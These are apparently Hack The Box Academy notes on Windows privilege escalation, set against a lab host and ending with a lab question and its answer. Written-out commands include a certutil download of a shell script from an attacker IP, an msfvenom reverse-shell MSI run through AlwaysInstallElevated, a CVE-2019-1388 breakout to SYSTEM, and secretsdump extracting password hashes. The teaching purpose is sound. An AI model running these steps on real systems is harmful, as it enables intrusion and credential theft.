





# Miscellaneous Techniques
## Living Off The Land Binaries and Scripts (LOLBAS)
The [LOLBAS project](https://lolbas-project.github.io/) documents binaries, scripts, and libraries that can be used for "living off the land" techniques on Windows systems. Each of these binaries, scripts and libraries is a Microsoft-signed file that is either native to the operating system or can be downloaded directly from Microsoft and have unexpected functionality useful to an attacker. Some interesting functionality may include:

<table class="bg-neutral-800 text-primary w-full"><thead class="text-left rounded-t-lg"><tr class="border-t-neutral-600 first:border-t-0 border-t"><th class="bg-neutral-700 first:rounded-tl-lg last:rounded-tr-lg p-4"></th><th class="bg-neutral-700 first:rounded-tl-lg last:rounded-tr-lg p-4"></th><th class="bg-neutral-700 first:rounded-tl-lg last:rounded-tr-lg p-4"></th></tr></thead><tbody class="font-mono text-sm"><tr class="border-t-neutral-600 first:border-t-0 border-t"><td class="p-4">Code execution</td><td class="p-4">Code compilation</td><td class="p-4">File transfers</td></tr><tr class="border-t-neutral-600 first:border-t-0 border-t"><td class="p-4">Persistence</td><td class="p-4">UAC bypass</td><td class="p-4">Credential theft</td></tr><tr class="border-t-neutral-600 first:border-t-0 border-t"><td class="p-4">Dumping process memory</td><td class="p-4">Keylogging</td><td class="p-4">Evasion</td></tr><tr class="border-t-neutral-600 first:border-t-0 border-t"><td class="p-4">DLL hijacking</td><td class="p-4"></td><td class="p-4"></td></tr></tbody></table>

### Transferring File with Certutil
One classic example is `certutil.exe`, whose intended use is for handling certificates but can also be used to transfer files by either downloading a file to disk or base64 encoding/decoding a file.

```powershell
PS C:\htb> certutil.exe -urlcache -split -f http://10.10.14.3:8080/shell.bat shell.bat
```

### Encoding File with Certutil
We can use the `-encode` flag to encode a file using base64 on our Windows attack host and copy the contents to a new file on the remote system.

```cmd
C:\htb> certutil -encode file1 encodedfile

Input Length = 7
Output Length = 70
CertUtil: -encode command completed successfully
```

### Decoding File with Certutil
Once the new file has been created, we can use the -decode flag to decode the file back to its original contents.

```cmd
C:\htb> certutil -decode encodedfile file2

Input Length = 70
Output Length = 7
CertUtil: -decode command completed successfully.
```

## Always Install Elevated
This setting can be set via Local Group Policy by setting `Always install with elevated privileges` to `Enabled` under the following paths.

- `Computer Configuration\Administrative Templates\Windows Components\Windows Installer`
- `User Configuration\Administrative Templates\Windows Components\Windows Installer`

### Enumerating Always Install Elevated Settings
Let's enumerate this setting.

```powershell
PS C:\htb> reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer

HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
```

```powershell
PS C:\htb> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer

HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
```

### Generating MSI Package
We can exploit this by generating a malicious MSI package and execute it via the command line to obtain a reverse shell with SYSTEM privileges.

```shellsession
$ msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.3 lport=9443 -f msi > aie.msi

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of msi file: 159744 bytes
```

### Executing MSI Package
We can upload this MSI file to our target, start a Netcat listener and execute the file from the command line like so:

```cmd
C:\htb> msiexec /i c:\users\htb-student\desktop\aie.msi /quiet /qn /norestart
```

### Catching Shell
If all goes to plan, we will receive a connection back as NT AUTHORITY\SYSTEM.

```shellsession
$ nc -lnvp 9443

listening on [any] 9443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.129.43.33] 49720
Microsoft Windows [Version 10.0.18363.592]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami

whoami
nt authority\system
```

## CVE-2019-1388
CVE-2019-1388 was a privilege escalation vulnerability in the Windows Certificate Dialog, which did not properly enforce user privileges. The issue was in the UAC mechanism, which presented an option to show information about an executable's certificate, opening the Windows certificate dialog when a user clicks the link. The `Issued By` field in the General tab is rendered as a hyperlink if the binary is signed with a certificate that has Object Identifier (OID) `1.3.6.1.4.1.311.2.1.10`. This OID value is identified in the `wintrust.h` header as `SPC_SP_AGENCY_INFO_OBJID` which is the `SpcSpAgencyInfo` field in the details tab of the certificate dialog. If it is present, a hyperlink included in the field will render in the General tab. This vulnerability can be exploited easily using an old Microsoft-signed executable (`hhupd.exe`) that contains a certificate with the `SpcSpAgencyInfo` field populated with a hyperlink.

When we click on the hyperlink, a browser window will launch running as `NT AUTHORITY\SYSTEM`. Once the browser is opened, it is possible to "break out" of it by leveraging the `View page source` menu option to launch a `cmd.exe` or `PowerShell.exe` console as `SYSTEM`.

First right click on the `hhupd.exe` executable and select `Run as administrator` from the menu.



Next, click on `Show information about the publisher's certificate` to open the certificate dialog. Here we can see that the `SpcSpAgencyInfo` field is populated in the Details tab.



Next, we go back to the General tab and see that the `Issued by` field is populated with a hyperlink. Click on it and then click `OK`, and the certificate dialog will close, and a browser window will launch.



If we open `Task Manager`, we will see that the browser instance was launched as `SYSTEM`.



Next, we can right-click anywhere on the web page and choose `View page source`. Once the page source opens in another tab, right-click again and select `Save as`, and a `Save As` dialog box will open.



At this point, we can launch any program we would like as SYSTEM. Type `c:\windows\system32\cmd.exe` in the file path and hit enter. If all goes to plan, we will have a cmd.exe instance running as SYSTEM.

This [link](https://web.archive.org/web/20210620053630/https://gist.github.com/gentilkiwi/802c221c0731c06c22bb75650e884e5a) lists all of the vulnerable Windows Server and Workstation versions.

## Scheduled Tasks
### Enumerating Scheduled Tasks

```cmd
C:\htb>  schtasks /query /fo LIST /v
 
Folder: \
INFO: There are no scheduled tasks presently available at your access level.
 
Folder: \Microsoft
INFO: There are no scheduled tasks presently available at your access level.
 
Folder: \Microsoft\Windows
INFO: There are no scheduled tasks presently available at your access level.
 
Folder: \Microsoft\Windows\.NET Framework
HostName:                             WINLPE-SRV01
TaskName:                             \Microsoft\Windows\.NET Framework\.NET Framework NGEN v4.0.30319
Next Run Time:                        N/A
Status:                               Ready
Logon Mode:                           Interactive/Background
Last Run Time:                        5/27/2021 12:23:27 PM
Last Result:                          0
Author:                               N/A
Task To Run:                          COM handler
Start In:                             N/A
Comment:                              N/A
Scheduled Task State:                 Enabled
Idle Time:                            Disabled
Power Management:                     Stop On Battery Mode, No Start On Batteries
Run As User:                          SYSTEM
Delete Task If Not Rescheduled:       Disabled
Stop Task If Runs X Hours and X Mins: 02:00:00
Schedule:                             Scheduling data is not available in this format.
Schedule Type:                        On demand only
Start Time:                           N/A
Start Date:                           N/A
End Date:                             N/A
Days:                                 N/A
Months:                               N/A
Repeat: Every:                        N/A
Repeat: Until: Time:                  N/A
Repeat: Until: Duration:              N/A
Repeat: Stop If Still Running:        N/A

<SNIP>
```

### Enumerating Scheduled Tasks with PowerShell

```powershell
PS C:\htb> Get-ScheduledTask | select TaskName,State
 
TaskName                                                State
--------                                                -----
.NET Framework NGEN v4.0.30319                          Ready
.NET Framework NGEN v4.0.30319 64                       Ready
.NET Framework NGEN v4.0.30319 64 Critical           Disabled
.NET Framework NGEN v4.0.30319 Critical              Disabled
AD RMS Rights Policy Template Management (Automated) Disabled
AD RMS Rights Policy Template Management (Manual)       Ready
PolicyConverter                                      Disabled
SmartScreenSpecific                                     Ready
VerifiedPublisherCertStoreCheck                      Disabled
Microsoft Compatibility Appraiser                       Ready
ProgramDataUpdater                                      Ready
StartupAppTask                                          Ready
appuriverifierdaily                                     Ready
appuriverifierinstall                                   Ready
CleanupTemporaryState                                   Ready
DsSvcCleanup                                            Ready
Pre-staged app cleanup                               Disabled

<SNIP>
```

Unfortunately, we cannot list out scheduled tasks created by other users (such as admins) because they are stored in `C:\Windows\System32\Tasks`, which standard users do not have read access to.

## User/Computer Description Field
### Checking Local User Description Field
Though more common in Active Directory, it is possible for a sysadmin to store account details (such as a password) in a computer or user's account description field. We can enumerate this quickly for local users using the Get-LocalUser cmdlet.

```powershell
PS C:\htb> Get-LocalUser
 
Name            Enabled Description
----            ------- -----------
Administrator   True    Built-in account for administering the computer/domain
DefaultAccount  False   A user account managed by the system.
Guest           False   Built-in account for guest access to the computer/domain
helpdesk        True
htb-student     True
htb-student_adm True
jordan          True
logger          True
sarah           True
sccm_svc        True
secsvc          True    Network scanner - do not change password
sql_dev         True
```

### Enumerating Computer Description Field with Get-WmiObject Cmdlet
We can also enumerate the computer description field via PowerShell using the Get-WmiObject cmdlet with the Win32_OperatingSystem class.

```powershell
PS C:\htb> Get-WmiObject -Class Win32_OperatingSystem | select Description
 
Description
-----------
The most vulnerable box ever!
```

## Mount VHDX/VMDK
The tool [Snaffler](https://github.com/SnaffCon/Snaffler) can help us perform thorough enumeration that we could not otherwise perform by hand. The tool searches for many interesting file types, such as files containing the phrase "pass" in the file name, KeePass database files, SSH keys, web.config files, and many more.

Three specific file types of interest are `.vhd`, `.vhdx`, and `.vmdk` files. These are `Virtual Hard Disk`, `Virtual Hard Disk v2` (both used by Hyper-V), and `Virtual Machine Disk` (used by VMware). 

### Mount VMDK on Linux

```shellsession
$ guestmount -a SQL01-disk1.vmdk -i --ro /mnt/vmdk
```

### Mount VHD/VHDX on Linux

```shellsession
$ guestmount --add WEBSRV10.vhdx  --ro /mnt/vhdx/ -m /dev/sda1
```

In Windows, we can right-click on the file and choose `Mount`, or use the `Disk Management` utility to mount a `.vhd` or `.vhdx` file. If preferred, we can use the `Mount-VHD` PowerShell cmdlet. Regardless of the method, once we do this, the virtual hard disk will appear as a lettered drive that we can then browse.

For a `.vmdk` file, we can right-click and choose `Map Virtual Disk` from the menu. Next, we will be prompted to select a drive letter. If all goes to plan, we can browse the target operating system's files and directories. If this fails, we can use `VMWare Workstation File` --> `Map Virtual Disks` to map the disk onto our base system. We could also add the `.vmdk` file onto our attack VM as an additional virtual hard drive, then access it as a lettered drive. We can even use 7-Zip to extract data from a `.vmdk` file. This [guide](https://www.nakivo.com/blog/extract-content-vmdk-files-step-step-guide/) illustrates many methods for gaining access to the files on a `.vmdk` file.

### Retrieving Hashes using Secretsdump.py
If we can locate a backup of a live machine, we can access the `C:\Windows\System32\Config` directory and pull down the `SAM`, `SECURITY` and `SYSTEM` registry hives. We can then use a tool such as secretsdump to extract the password hashes for local users.

```shellsession
$ secretsdump.py -sam SAM -security SECURITY -system SYSTEM LOCAL

Impacket v0.9.23.dev1+20201209.133255.ac307704 - Copyright 2020 SecureAuth Corporation

[*] Target system bootKey: 0x35fb33959c691334c2e4297207eeeeba
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[*] Dumping cached domain logon information (domain/username:hash)

<SNIP>
```

## Questions
RDP to 10.129.103.22 (ACADEMY-WINLPE-SRV01), with user `htb-student` and password `HTB_@cademy_stdnt!`
1. Using the techniques in this section, find the cleartext password for an account on the target host. **Answer: !QAZXSW@3edc**
   - Read user's description:
        ```powershell
        PS C:\Windows\system32> Get-LocalUser

        Name            Enabled Description
        ----            ------- -----------
        Administrator   True    Built-in account for administering the computer/domain
        DefaultAccount  False   A user account managed by the system.
        Guest           False   Built-in account for guest access to the computer/domain
        helpdesk        True
        htb-student     True
        htb-student_adm True
        jordan          True
        logger          True
        mrb3n           True
        sarah           True
        sccm_svc        True
        secsvc          True    Network scanner - do not change password: !QAZXSW@3edc
        sql_dev         True
        ```